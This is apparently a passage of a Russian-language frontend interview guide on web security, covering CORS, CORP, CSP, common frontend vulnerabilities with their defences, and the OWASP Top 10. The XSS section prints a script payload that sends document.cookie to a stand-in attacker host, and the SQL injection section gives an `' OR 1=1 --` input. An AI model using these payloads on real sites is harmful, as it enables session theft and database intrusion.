- `Access-Control-Allow-Origin`: Указывает, какие домены могут получать доступ. Например:

    - `*`: Разрешает доступ любому домену.

    - `https://example.com`: Разрешает доступ только домену `example.com`.

- `Access-Control-Allow-Methods`: Указывает, какие методы разрешены (например, `GET`, `POST`, `PUT`).

- `Access-Control-Allow-Headers`: Указывает, какие заголовки можно отправлять в запросах.

- `Access-Control-Allow-Credentials`: Разрешает отправку кросс-доменных запросов с учётом куки или авторизационных данных.

---

**Что будет, если CORS не настроен?**

- Браузер заблокирует запрос и выдаст ошибку в консоли (например, `CORS policy: No 'Access-Control-Allow-Origin' header`).

- Это защитит ресурсы от кросс-доменных запросов, но может мешать нормальной работе, если доступ к API действительно необходим.

---

**Типичные сценарии использования CORS:**

1. Разделение фронтенда и бекенда на разные домены (например, SPA на `app.example.com` обращается к API на `api.example.com`).

2. Интеграция с внешними API (например, подключение платежных сервисов или сторонних аналитик).

3. Разработка приложений, где требуется доступ к ресурсам с локального хоста (`localhost`) во время тестирования.

### Дополнительные материалы

- [https://developer.mozilla.org/ru/docs/Web/HTTP/CORS](https://developer.mozilla.org/ru/docs/Web/HTTP/CORS)

</details>

---

<details>
<summary><b>Что такое CORP?</b></summary>
Механизм CORP (Cross-Origin Resource Policy, или «Политика межсайтовых ресурсов») — это механизм веб-безопасности, который реализуется через HTTP-заголовок ответа Cross-Origin-Resource-Policy.

Он позволяет владельцам веб-сайтов строго контролировать, какие другие сайты (источники, origins) имеют право встраивать или загружать их ресурсы (например, изображения, скрипты, шрифты, видео или данные API).

### Для чего нужен CORP?
Основная цель CORP — защита от атак по сторонним каналам (side-channel attacks), таких как уязвимости Spectre и Meltdown, а также от утечек конфиденциальных данных.
Без CORP злоумышленник может создать вредоносный сайт и встроить на него ресурс с вашего сайта (например, приватное изображение или скрипт). Хотя браузер не покажет содержимое этого ресурса напрямую из-за политики одинакового источника (SOP), злоумышленник может измерить время его загрузки, размер или другие косвенные параметры, чтобы сделать выводы о конфиденциальных данных пользователя. CORP блокирует саму возможность такой межсайтовой загрузки на уровне браузера.

### Возможные значения заголовка

Заголовок Cross-Origin-Resource-Policy может принимать три основных значения:
- <code>same-origin</code> (наиболее строгий и рекомендуемый для приватных данных): Ресурс может быть загружен или встроен только с того же самого источника (должны полностью совпадать протокол, домен и порт). Любые попытки загрузить его с другого сайта будут заблокированы браузером.
- <code>same-site</code>: Ресурс может быть загружен с любого источника, который принадлежит тому же сайту (совпадает основной домен верхнего уровня, eTLD+1, например, example.com и sub.example.com), но блокируется для совершенно сторонних доменов.
- <code>cross-origin</code>: Ресурс может быть загружен с любого источника. Это поведение по умолчанию (если заголовок вообще не указан), но его явное указание иногда требуется для корректной работы в связке с другими политиками безопасности.

</details>

---

<details>
<summary><b>Какие уязвимости есть во фронтенде?</b></summary>

1. **XSS (Cross-Site Scripting)** — инъекция вредоносного кода. Происходит через ввод javascript в поля для пользовательского ввода. Например, в инпут для ввода комментария вводится код `<script>fetch('https://hacker-site.com?cookie=' + document.cookie)</script>`. Сервер сохраняет комментарий и выводит его для другого пользователя. Скрипт запускается и куки пользователя улетают к злоумышленникам.

    **Способы защиты от XSS-атак:**

    - Экранирование данных (escaping) — преобразование специальных символов, чтобы они интерпретировались как текст, а не как HTML или JavaScript. Например, `<` превращается в `&lt;`, `"` превращается в `&quot;` и тд.

    - Валидация пользовательского ввода — разрешать ввод только допустимых символов

    - Настройка CSP (Content Security Policy). Через HTTP-заголовок Content-Security-Policy можно запретить запуск inline-скриптов или разрешить исполнение скриптов только с конкретного домена.

    Просто интересный факт: React по умолчанию экранирует данные, вставленные в jsx.

1. **CSRF (Cross-Site Request Forgery**) — атака, при которой злоумышленник заставляет пользователя выполнить нежелательный запрос к сайту, на котором он авторизован.

    **Пример: п**ользователь заходит на вредоносный сайт, где скрыта форма отправки денег с его аккаунта на другом сайте.

    **Как защититься:**

    - Использовать CSRF-токены в формах.

    - Проверять источник запросов (Referer или Origin).

1. **SQL-инъекции или инъекции команд** — атака, при которой злоумышленник через пользовательский ввод отправляет запрос, содержащий вредоносную команду, которая затем исполняется на сервере.

    **Пример:**

    - Ввод `' OR 1=1 --` в поисковую строку вызывает проблемы на сервере.

    **Как защититься:** валидировать вводимые данные.

1. **Недостатки в аут ентификации и авторизации** — ошибки, связанные с неправильной проверкой прав доступа.

    **Пример:** обычный пользователь получает доступ к панели администратора через прямой запрос `/admin`.

    **Как защититься:**

    - Проверять права доступа на серверной стороне.

    - Использовать защищённые маршруты.

1. **Уязвимости в зависимости от сторонних библиотек** — использование устаревших или небезопасных библиотек.

    **Пример:**

    - Уязвимая версия библиотеки jQuery позволяет выполнить XSS.

    **Как защититься:**

    - Регулярно обновлять зависимости.

    - Проводить анализ безопасности с помощью инструментов вроде npm audit.

1. **Утечка данных через браузер** — случаи, когда конфиденциальные данные сохраняются в кеш браузера, cookies или URL.

    **Пример:** личные данные лежат в URL и попадают в историю браузера. Через фишинговое ПО злоумышленник получает историю браузера и ворует данные.

    **Как защититься:**

    - Не передавать конфиденциальную информацию через URL.

    - Использовать HTTPS.

    - Устанавливать флаги безопасности для cookies (HttpOnly, Secure).

### Дополнительные материалы

- [https://habr.com/ru/companies/oleg-bunin/articles/570040/](https://habr.com/ru/companies/oleg-bunin/articles/570040/)

- [https://habr.com/ru/companies/first/articles/497342/](https://habr.com/ru/companies/first/articles/497342/)

- [https://youtu.be/wiGhaDXqmMk?si=nZFYghXzuYmdLLNF](https://youtu.be/wiGhaDXqmMk?si=nZFYghXzuYmdLLNF)

- [https://youtu.be/6o5kB-8NQ_E?si=lb9_OAKG_qShkpeo](https://youtu.be/6o5kB-8NQ_E?si=lb9_OAKG_qShkpeo)

</details>

---

<details>
<summary><b>Что такое OWASP Top 10?</b></summary>

OWASP Top 10 — это стандартизированный и общепризнанный во всем мире документ, в котором представлены десять наиболее критических угроз и уязвимостей безопасности веб-приложений.

Аббревиатура OWASP расшифровывается как Open Web Application Security Project (Открытый проект по безопасности веб-приложений) — это некоммерческий фонд, который занимается вопросами кибербезопасности.

### Топ-10 самых актуальных категорий рисков и веб-атак за последние 5 лет:

- <code>Broken access control (BAC)</code> — нарушение контроля доступа.

- <code>Security misconfiguration</code> — нарушение безопасности конфигураций.

- <code>Software supply chain failures</code> — уязвимости в цепочке поставок.

- <code>Cryptographic failures</code> — криптографические уязвимости.

- <code>Injection</code> — инъекции.

- <code>Insecure design</code> — небезопасное проектирование.

- <code>Authentication failures</code> — сбои аутентификации.

- <code>Software or data integrity failures</code> — сбои в обеспечении целостности ПО и данных.

- <code>Logging and alerting failures</code> — сбои логирования и оповещения.

- <code>Mishandling or exceptional conditions</code> — неправильная обработка исключительных условий.

### Дополнительные материалы

- [https://habr.com/ru/companies/bizone/articles/1011196/](https://habr.com/ru/companies/bizone/articles/1011196/)
</details>

---

<details>
<summary><b>Что такое CSP?</b></summary>
CSP (Content Security Policy) — это механизм безопасности в виде HTTP-заголовка, который указывает браузеру, какие источники контента (скрипты, стили, изображения, фреймы) разрешено загружать и выполнять на веб-странице. Он служит главным барьером для предотвращения атак межсайтового скриптинга (XSS) и внедрения вредоносного кода.

### Как это работает
Сервер отправляет браузеру специальный заголовок, например: Content-Security-Policy: default-src 'self'; script-src 'self' https://trustedscripts.com;

### Этот пример означает:
- default-src 'self': весь контент (изображения, шрифты и т.д.) разрешено загружать только с того же домена (origins).
- script-src 'self' https://trustedscripts.com: JavaScript-скрипты можно загружать только с вашего сайта и с доверенного источника trustedscripts.com. Браузер проигнорирует любые другие скрипты.

### Настраивается двумя способами:
- Рекомендуемый вариант (HTTP-заголовок): Устанавливается на уровне конфигурации вашего веб-сервера (Nginx, Apache) или в коде бэкенда.

```
httpContent-Security-Policy: default-src 'self'; script-src 'self' https://trustedscripts.com;
```

- Альтернативный вариант (HTML-тег): Размещается внутри секции <code>\<head\></code> HTML-документа (обязательно до любых тегов <code>\<script\></code>).
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trustedscripts.com;">
```

### Почему лучше не настраивать с помощью тега

1. **Ограничения директив:** Некоторые важные директивы (например, `frame-ancestors`, `report-uri`, `sandbox`) просто не поддерживаются в `<meta>` тегах.
2. **Безопасность и порядок выполнения:** HTTP-заголовок сервера обрабатывается браузером до начала парсинга HTML-страницы. Это гарантирует, что политика применится ко всем ресурсам сразу и не сможет быть случайно удалена или подменена, если на странице уже есть уязвимости.

### Дополнительные материалы

- [https://developer.mozilla.org/ru/docs/Web/HTTP/Guides/CSP](https://developer.mozilla.org/ru/docs/Web/HTTP/Guides/CSP)
</details>

---

<details>
<summary><b>Чем отличается CSP от CORP?</b></summary>
Главное отличие между CORP (Cross-Origin Resource Policy) и CSP (Content Security Policy) заключается в направлении защиты и том, кто устанавливает правила.

### Если говорить максимально просто:
- CSP отвечает на вопрос: "Какие внешние ресурсы моему сайту разрешено загружать?".
- CORP отвечает на вопрос: "Какому внешнему сайту разрешено загружать мой ресурс?".
</details>